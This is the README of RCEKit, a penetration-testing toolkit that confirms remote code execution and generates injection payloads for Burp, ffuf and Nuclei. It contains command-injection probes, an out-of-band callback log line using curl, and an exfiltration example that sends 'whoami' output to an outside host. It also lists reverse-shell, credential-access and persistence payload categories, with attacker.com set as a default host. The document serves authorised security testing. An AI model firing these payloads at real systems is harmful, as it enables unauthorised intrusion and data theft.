




# RCEKit — prove RCE, don't guess it

**Version 2.18.0** · MIT · Python 3.8+ · zero third-party dependencies

RCEKit is an **RCE detection &amp; confirmation toolkit** for authorised penetration
testing, red teaming, and security research. Point it at a target you are allowed
to test — a URL or a captured HTTP request — and it tells you what **actually
executed**, backed by proof, not a "maybe".

A **`confirmed`** verdict means the target *computed or executed a value only
execution could produce* — random arithmetic, a template evaluation, a written
token — checked against a payload-free control. Reflection, coincidence, and
jitter can't fake it, so `confirmed` is something you can put in a report.

RCEKit confirms RCE through **multiple methods** under one CLI. Below it is pointed
at **real, publicly-documented CVEs** in production software — each verdict
differenced against a payload-free control, so `confirmed` means the target
*executed*, not that it might have:

| RCE class | `--methods` | Real-world target | Verdict |
|---|---|---|---|
| OS command injection (results-based) | `reflected` | Webmin 1.910 — CVE-2019-15107 | **`confirmed`** |
| Expression injection (OGNL) | `eval` | Apache Struts2 — S2-001 | **`confirmed`** |
| Blind / out-of-band (Log4Shell/JNDI) | *OOB listener* | Log4Shell — CVE-2021-44228 | **`confirmed`** |
| Blind command injection (no output) | `time` | Webmin 1.910 — CVE-2019-15107 | `needs-review` |

<details open>
<summary><b><code>reflected</code> — OS command injection, Webmin CVE-2019-15107 → <code>confirmed</code></b></summary>

<br>



</details>

<details>
<summary><b><code>eval</code> — OGNL expression injection, Apache Struts2 S2-001 → <code>confirmed</code></b></summary>

<br>



</details>

<details>
<summary><b>out-of-band — blind Log4Shell (CVE-2021-44228) via a DNS callback → <code>confirmed</code></b></summary>

<br>



</details>

<details>
<summary><b><code>time</code> — blind command injection, Webmin CVE-2019-15107 → <code>needs-review</code></b></summary>

<br>



</details>

---

## Quick start

```bash
git clone https://github.com/kabiri-labs/rcekit.git
cd rcekit                    # Python 3.8+, standard library only — nothing to install
```

Put a `FUZZ` marker where your input lands (or select a parameter with `-p` when
using a captured request — see [`-r`](#point-at-a-captured-request--r) below), and
ask RCEKit to prove RCE:

```bash
python rcekit.py --acknowledge-consent \
  --verify-url "https://target.example/lookup?host=FUZZ" \
  --methods reflected,eval
```

```
[detect] methods: reflected, eval
[detect] sent 13 probes: confirmed=4, negative=9

[detect] CONFIRMED execution (4):
  [reflected/unix/raw] ; echo RKYZRIP$((540141+314681))RKFWVFS$(echo RKBWOOC)RKYZRIP
      (target computed 'RKYZRIP854822RKFWVFSRKBWOOCRKYZRIP' — random operands, absent from control)
```

No external infrastructure, no config file. If nothing is vulnerable you get a
clean `negative`, not a false alarm. That's the whole idea.

---

## Why RCEKit

Finding an RCE *candidate* is easy. **Proving it** — reliably, without crying
wolf — is the hard part:

- Scanners flag "possibly vulnerable" and bury the real finding under false positives.
- Blind RCE usually forces you to stand up interactsh/Collaborator just to confirm.
- Each RCE class (command injection, SSTI, code injection) needs a different confirmation trick.
- A report full of "maybe" findings wastes triage time and burns your credibility.

RCEKit answers with **two verdict tiers that are never merged**:

| Tier | Meaning |
|------|---------|
| **`confirmed`** | Execution proven — the target returned a value it could only produce by executing your input, and that value is absent from a payload-free control. |
| **`needs-review`** | A real candidate worth a look (e.g. a blind timing signal), but not proof on its own. |

Anything else is `negative` or `inconclusive`. The moment "confirmed" and "maybe"
blur together, "confirmed" loses its meaning — so RCEKit keeps them apart, by design.

---

## What it confirms

One CLI, one `--methods` flag, covering the main paths to RCE:

| RCE class | `--methods` | How RCEKit proves it |
|-----------|-------------|----------------------|
| **OS command injection** | `reflected` | Makes the shell compute `$((a+b))` on random operands and collapse `$(echo TAG)`; confirms the *result*, never the literal expression. |
| **Code / expression injection** — SSTI, SpEL, OGNL, Groovy, `eval()` (CWE-94) | `eval` | Injects `a*b` in every common template syntax (`${…}` `{{…}}` `#{…}` `%{…}` `<%=…%>` `@(…)`, bare); confirms the **product** appears while the literal `a*b` does not. |
| **Blind command injection** (no output) | `time` | Fires a controlled `0/N/2N` delay series and confirms the response time tracks the delay **linearly**; reported `needs-review` (jitter can't fake it, but timing isn't a computed value). |
| **Internal / no-egress** targets | `file` | Writes a random token to a web-reachable file and fetches it back — proving execution **plus** a write primitive, with no external listener. |
| **Blind / out-of-band** — Log4Shell/JNDI, exfil, async | *(OOB listener)* | Built-in HTTP/DNS listener receives callbacks and correlates each to the exact payload. |

Mix them freely: `--methods reflected,eval,time` runs all three and reports each
tier separately.

> **Honest scope.** RCEKit confirms RCE that is reachable by **injecting into a
> request** and interpreted by a shell or an evaluator. It does **not** cover
> memory-corruption bugs (buffer overflow, UAF), argument injection into a
> no-shell `argv` array, or confirm deserialization gadget chains beyond a timing
> signal — those are different problems. It aims to be excellent at the
> injection-driven RCE classes above rather than mediocre at everything.

---

## Usage

Everything below needs `--acknowledge-consent` — RCEKit actively sends payloads,
so only ever run it against systems you are authorised to test.

### Point at a URL

Mark the injection point with `FUZZ` (in the URL, `--verify-data` body, or a
`--verify-header`). Method defaults to GET, or POST when you pass `--verify-data`.

```bash
# GET query parameter
python rcekit.py --acknowledge-consent \
  --verify-url "https://target.example/lookup?host=FUZZ" --methods reflected

# JSON body — "; id" is delivered inside the JSON string, not %3B%20id
python rcekit.py --acknowledge-consent \
  --verify-url "https://target.example/api" --verify-method POST \
  --verify-header "Content-Type: application/json" \
  --verify-data '{"host": "FUZZ"}' --methods reflected
```

RCEKit encodes the payload for the **exact injection point it lands in** — a query
value is percent-encoded, a JSON field is JSON-escaped, a form field is
form-encoded, a header stays single-line — so it reaches the sink intact instead
of being blanket-encoded into a literal the sink never decodes.

### Point at a captured request (`-r`)

Skip rebuilding the request by hand. Save a request from Burp/your proxy and let
RCEKit reuse its method, path, headers, body, and cookies:

```bash
python rcekit.py --acknowledge-consent -r request.txt -p host --methods reflected
```

Mark the point inline with `FUZZ` or `*`, or select a parameter with `-p NAME`
(searched query → body → header → cookie). Each injection point is still encoded
for its own context. Scheme is inferred (`https` on `:443`, else `http` — a
portless capture cannot say which, and `http` keeps lab and internal targets
reachable); the inferred scheme is printed, and a capture carrying an
`Authorization` or `Cookie` header over plain `http` is flagged so you can
pass `--request-scheme https` (add `--insecure` for a self-signed cert).
`Host`/`Content-Length` are recomputed.

### Blind and no-egress targets

```bash
# No output channel, but you control a writable web root → prove it with a file
python rcekit.py --acknowledge-consent \
  --verify-url "https://target.example/ping?ip=FUZZ" \
  --methods file --webroot /var/www/html --web-base-url https://target.example

# No output and no egress at all → hardened blind timing (a needs-review candidate),
# corroborated by a results-based proof when any output channel exists
python rcekit.py --acknowledge-consent \
  --verify-url "https://target.example/ping?ip=FUZZ" \
  --methods reflected,time --time-base 3
```

`file` changes target state (one file per confirmed probe), so it is gated behind
`--webroot` + `--web-base-url` and prints an exact `rm`/`del` **cleanup command**
for every finding.

### WAF in the way?

The default sends **clean, canonical** payloads — fewest variants, clearest
confirmation, lowest false positives — assuming authorised, WAF-free access.
`--evade low` opts into a single low-touch transform (`${IFS}` for spaces) for the
shell probes. It is deliberately minimal, not noisy evasion.

```bash
python rcekit.py --acknowledge-consent \
  --verify-url "https://target.example/ping?ip=FUZZ" --methods reflected --evade low
```

### Sink runs your input as the whole command?

By default the shell probes break out of a surrounding command with a leading
separator (`; …`), which fits the common `system("ping " + input)` sink. Some
sinks instead execute the injected input *as the entire command* — a
`qx/$input/` backdoor, a bare `sh -c "$input"` — where there is nothing to break
out of and a leading `;` is a shell syntax error. Pass `--sink-raw` to send the
probes as bare commands:

```bash
python rcekit.py --acknowledge-consent \
  --verify-url "https://target.example/run?cmd=FUZZ" --methods reflected --sink-raw
```

### Reading the results

- **`confirmed`** — execution proven. The evidence line shows the exact value the
  target computed. Put it in the report.
- **`needs-review`** — a candidate (e.g. a linear timing response). Worth manual
  follow-up; not proof.
- **`negative`** / **`inconclusive`** — reached the target but found no evidence, or
  evidence that also appears without the payload (so it isn't attributable to execution).
- **`error`** — the request never reached the target (a delivery/TLS failure). Kept
  separate from `negative` on purpose: a connectivity problem must never read as
  "not vulnerable". For a self-signed HTTPS cert, re-run with `--insecure`.

<details>
<summary><b>How a <code>confirmed</code> can't be a false positive</b></summary>

Every confirmation is **differential** and built on a value RCEKit picked at
random, so reflection or coincidence can't produce it:

- **Results-based (`reflected` / `eval`)** — the expected value is a tag-wrapped
  sum or a boundary-fenced product of random operands. A target that merely echoes
  the payload returns the literal `$((a+b))` / `a*b`, never the computed value.
  The value is also checked against a payload-free control, and the search is
  encoding-aware (a base64/hex/url/html-encoded output still confirms).
- **Timing (`time`)** — a controlled `0/N/2N` series must produce a *linear*
  response-time increase; a one-off slow response (jitter) fails the regression.
  Timing has no computed value, so it never self-confirms — it stays `needs-review`
  and is corroborated by a results-based proof when a channel exists.
- **File (`file`)** — the fetched file must contain the random token; a stale file
  can't match because the filename and token are fresh each run.

</details>

---

## The arsenal — generation &amp; exports

Under the detection engine, RCEKit is still a strong payload **generator**: it
builds context- and sink-aware payloads across 14 environments and exports them to
the tools you already use.

```bash
# Benign probes (no consent needed) — does your input even reach a sink?
python rcekit.py --detection-only --output detect.txt

# Targeted payloads for an engagement
python rcekit.py --acknowledge-consent \
  --environments unix --categories basic_enum file_operations waf_bypass --output payloads.txt

# Export to Burp / ffuf / Nuclei
python rcekit.py --acknowledge-consent --categories code_execution \
  --output-format nuclei --output run
```

- **`burp`** — deduplicated, watermark-free wordlists split per context, plus a
  combined list. A `request.txt` with Burp's `§…§` marker is written when a target
  profile supplies a real request.
- **`ffuf`** — the same wordlists and, with a profile `request` block, a ready-to-run
  `request.txt` + executable `run.sh`.
- **`nuclei`** — runnable templates grouped by environment and oracle (OOB /
  time-based / reflection). For the fullest pack: `--detection-only --output-format nuclei`.

Every generated payload runs as-is on its sink or carries its own decoder —
non-runnable transforms are removed and decoder-required blobs are opt-in, so you
never copy a payload that silently does nothing.

---

## Going further

<details>
<summary><b>Target profiles</b> — describe the target once, generate only what can fire</summary>

A small JSON file supplies defaults (explicit CLI flags override them) and narrows
generation to what could actually reach the sink:

```json
{
  "name": "shell-concat-noquotes",
  "environments": ["unix"],
  "contexts": ["raw"],
  "categories": ["basic_enum", "file_operations", "waf_bypass"],
  "deny_chars": ["'", "\""],
  "sink_needs_separator": true
}
```

```bash
python rcekit.py --acknowledge-consent --target-profile profiles/shell-concat-noquotes.json
```

- `deny_chars` / `max_length` filter the **final** payload (a URL-encoded quote
  survives a quote filter because the literal character is gone).
- **Sink shape** narrows generation: `sink_needs_separator` (mid-command injection
  → separator-led break-outs only), `sink_blind` (no output → OOB/timing only),
  `sink_decodes` (input is decoded → those encodings become valid). Against a
  mid-command sink, `sink_needs_separator` dropped ~20% of payloads *without losing
  a single confirmed hit*.
- A `request` block (URL/method/headers/body with `FUZZ`) shapes the Burp/ffuf/Nuclei
  exports to the real endpoint. Example profiles ship in [`profiles/`](profiles/).

</details>

<details>
<summary><b>Multi-step / session-aware verification</b> — auth, file-upload, blind/async sinks</summary>

A single request can't reach sinks behind a login, carried in **uploaded file
content**, or executed **blind/async**. `--verify-chain <profile.json>` drives an
ordered, cookie-aware chain (login → CSRF extraction → prerequisites → payload
delivery → trigger) and confirms **in-band** (a `match` oracle on a chosen step) or
**out-of-band** (a `{callback}` URL received by the built-in listener).

Each step is `method` + `path` (+ optional `headers`) with one body of `body`
(raw), `json`, `form`, or `multipart`. `FUZZ` marks the payload (including inside
uploaded file content); `{var}` is substituted from an earlier step's `extract`,
and `{token}` is a per-payload unique value.

```json
{
  "base": "https://target.example",
  "callback_host": "10.0.0.5", "listen_port": 8877, "confirm_step": "trigger",
  "steps": [
    {"name": "csrf",   "method": "GET",  "path": "/login", "extract": {"csrf": "csrf_token\" value=\"([^\"]+)"}},
    {"name": "login",  "method": "POST", "path": "/login", "form": {"csrf": "{csrf}", "user": "u", "pass": "p"}},
    {"name": "upload", "method": "POST", "path": "/import", "multipart": {"file": {"field": "f", "filename": "x_{token}.sql", "content": "FUZZ"}}},
    {"name": "trigger","method": "POST", "path": "/import/run", "json": "{\"file\": \"x_{token}.sql\"}"}
  ]
}
```

```bash
python rcekit.py --acknowledge-consent --environments postgres --categories code_execution \
  --contexts raw --encodings none --verify-active-risk intrusive --verify-chain chain.json
```

</details>

<details>
<summary><b>Out-of-band listener</b> — confirm blind RCE without interactsh/Collaborator</summary>

`--listen` receives OOB HTTP/DNS callbacks and correlates each to the payload that
produced it, via the token in a `.map.jsonl` manifest:

```bash
python rcekit.py --acknowledge-consent --categories oob \
  --oob-domain your-id.oob.example.com --output oob.txt
python rcekit.py --listen --correlate oob.txt.map.jsonl \
  --listen-http-port 8080 --listen-dns-port 53
```

```
[HIT] http token=8k2hn1ufohpv from 10.0.0.5 -> ; curl http://8k2hn1ufohpv.oob.example.com/ [oob/raw]
```

Correlates by token in the callback host **or** path, so exfil like
`curl http://token.dom/$(whoami)` still maps. Point the OOB domain's NS/A records
here for real engagements (port 53 needs root); for lab use aim payloads straight
at the listener.

</details>

<details>
<summary><b>Reference</b> — environments, categories, contexts, encodings, sinks</summary>

**Environments:** `unix`, `windows`, `nodejs`, `python`, `php`, `java`, `dotnet`,
`ruby`, `perl`, `go`, `docker`, `kubernetes`, `graphql`, `mongodb`.

**Categories:** `basic_enum`, `file_operations`, `network_operations`,
`code_execution`, `download_execute`, `reverse_shells`, `credential_access`,
`privilege_escalation`, `persistence`, `cloud_metadata`, `database_enumeration`,
`lateral_movement`, `container_escape`, `waf_bypass`, `oob`, `nosql_injection`,
`graphql_injection`.

**Contexts** (each carries an escape rule so the payload survives its container):
*Language / structural break-outs* (default): `raw`, `html`, `attribute`,
`attribute_unquoted`, `javascript`, `sql`, `php`, `unix_shell`, `windows_cmd`,
`powershell`, `shell_single_quoted`, `shell_double_quoted`, `graphql_string`.
*Transport / serialization* (opt-in): `json`, `graphql_variable`, `xml`,
`xml_cdata`, `yaml`, `http_header`.

**Encodings:** default self-contained set — `none`, `url_encode`,
`double_url_encode`, `random_case` (case-insensitive runners), `base64_decode_exec`
(carries its own `base64 -d|sh`). Decoder-required blobs (`base64`, `hex`,
`base64_then_url`, `double_base64`) are opt-in and only fire where the sink itself
decodes the input.

**Code-execution sinks** (for `--categories code_execution`): Node
(`child_process_exec`, `*_ssti`, `vm_eval`, `deserialization`, `expression_template`),
Python (`os_system`, `subprocess`, `jinja2_ssti`, `exec_ast`), Postgres
(`psql_meta_command`), PHP (`exec_system`, `eval`, `deserialize`), Java
(`runtime_exec`, `freemarker/velocity/thymeleaf_ssti`, `spel`, `ognl`, `groovy`,
`deserialization`), .NET (`process_start`, `deserialize`), Ruby (`kernel_system`,
`erb_ssti`), Perl (`system_backticks`), Go (`os_exec`), Mongo
(`operator_injection`, `where_js`, `server_side_js`), GraphQL (`introspection`,
`injection`, `batching`).

</details>

<details>
<summary><b>Full option reference</b></summary>

| Option | Description | Default |
|--------|-------------|---------|
| `--verify-url` | Authorised target URL with a `FUZZ` marker | None |
| `-r`, `--request-file` | Raw HTTP request to inject into (mark with `FUZZ`/`*` or `-p`) | None |
| `-p`, `--param` | Parameter/field/header/cookie to inject into for `-r` | None |
| `--request-scheme {http,https}` | Scheme for the URL built from `-r` | auto |
| `--methods <list>` | Detection methods: `reflected`, `eval`, `file`, `time` | None |
| `--webroot` / `--web-base-url` | (file method) server write dir / URL that serves it | None |
| `--time-base <seconds>` | (time method) base delay `N`; regression fires `0/N/2N` | `2.0` |
| `--evade {none,low}` | WAF posture; `low` = minimal `${IFS}`-for-spaces on shell probes | `none` |
| `--sink-raw` | (`--methods`) Sink runs input as the whole command; send probes with no leading separator | Off |
| `--verify-data` / `--verify-header` / `--verify-method` | Body (with `FUZZ`) / repeatable header / HTTP method | — |
| `--verify-url-location` / `--verify-body-location` | Encode the payload at the URL / body point | `query_value` / auto |
| `--verify-delay` / `--verify-timeout` | Seconds between requests / per-request timeout | `0` / `8` |
| `--insecure` | Skip TLS cert verification (self-signed internal targets), like `curl -k` | Off |
| `--verify-active-risk` | Highest safety tier verification may fire (`safe`/`intrusive`/`stateful`) | `safe` |
| `--verify-allow-destructive` | Allow destructive payloads (persistence/backdoors) | Off |
| `--verify-chain <profile.json>` | Multi-step, session-aware verification | None |
| `--listen` + `--correlate <map.jsonl>` | Run the OOB listener and map callbacks to payloads | Off |
| `--listen-http-port` / `--listen-dns-port` / `--listen-answer-ip` / `--listen-log` | Listener settings | `8080` / `5335` / `127.0.0.1` / — |
| `--oob-domain` | Collaborator/interactsh domain; each payload gets a unique subdomain | None |
| `-o, --output` | Output file (or base directory for `burp`/`nuclei`) | `rce_payloads.txt` |
| `--output-format` | `text`, `jsonl`, `burp`, `ffuf`, `nuclei` | `text` |
| `--environments` / `--categories` / `--contexts` / `--encodings` | Restrict generation | All / default sets |
| `--max-payloads` | Cap payloads (balanced round-robin sample) | Unlimited |
| `--detection-only` | Benign canary/timing probes for safe validation | Off |
| `--target-profile` | JSON profile of the target (supplies defaults) | None |
| `--deny-chars` / `--max-length` | Drop payloads with these chars / longer than this | None |
| `--sink-needs-separator` / `--sink-blind` / `--sink-decodes` | Narrow generation to the sink's shape | Off |
| `--attacker-ip` / `--attacker-domain` | Substituted into reverse-shell / download payloads | `192.168.1.100` / `attacker.com` |
| `--template-file` | Custom JSON payload templates | `templates/payloads.json` |
| `--include-metadata` | Write a `.meta.jsonl` sidecar (indicators, tiers, notes) | Off |
| `--max-safety` / `--include-blocking` | Highest safety tier / include blocking probes | `safe`–`intrusive` / Off |
| `--watermark` | Embed a traceable token in each payload | Off |
| `--acknowledge-consent` | Required to generate/fire exploitation payloads | Off |
| `--doctor` | Check corpus integrity and exit non-zero if missing/empty | Off |

</details>

---

## Safety &amp; ethics

- **Consent gate** — exploitation generation and verification require
  `--acknowledge-consent`; `--detection-only` is benign and does not.
- **Safe by default** — verification fires only low-impact proofs; reverse shells,
  download-execute, credential access, lateral movement, container escape,
  cloud-metadata and OOB payloads are held back until you raise
  `--verify-active-risk`. Destructive payloads (persistence, backdoors) are never
  fired without `--verify-allow-destructive`. An **execution plan** prints exactly
  what will be sent before anything fires.
- **Safety tiers** — `safe` / `intrusive` / `stateful`, filtered by `--max-safety`.
- **Audit &amp; logging** — every exploitation/verification run is recorded in
  `exploit_audit.log`; `--watermark` embeds a traceable token; execution logs go to
  `rcekit.log`.
- If the payload corpus is missing or corrupt, RCEKit refuses to run and exits
  non-zero instead of silently generating nothing (`--doctor` checks it).

This toolkit is intended for authorised penetration testing, security research,
education, and defensive training only. **Never use it against systems without
explicit permission** — unauthorized testing is illegal.

## Development

```bash
python -m unittest discover -s tests   # dependency-free test suite
```

Contributions welcome — new sinks/categories, encodings, environments, detection
methods, bug fixes, and docs. Payload bases live in editable JSON templates
(`templates/payloads.json`), so most coverage extends without touching the Python
source. See [CONTRIBUTING.md](CONTRIBUTING.md).

## License

MIT — see [LICENSE](LICENSE).
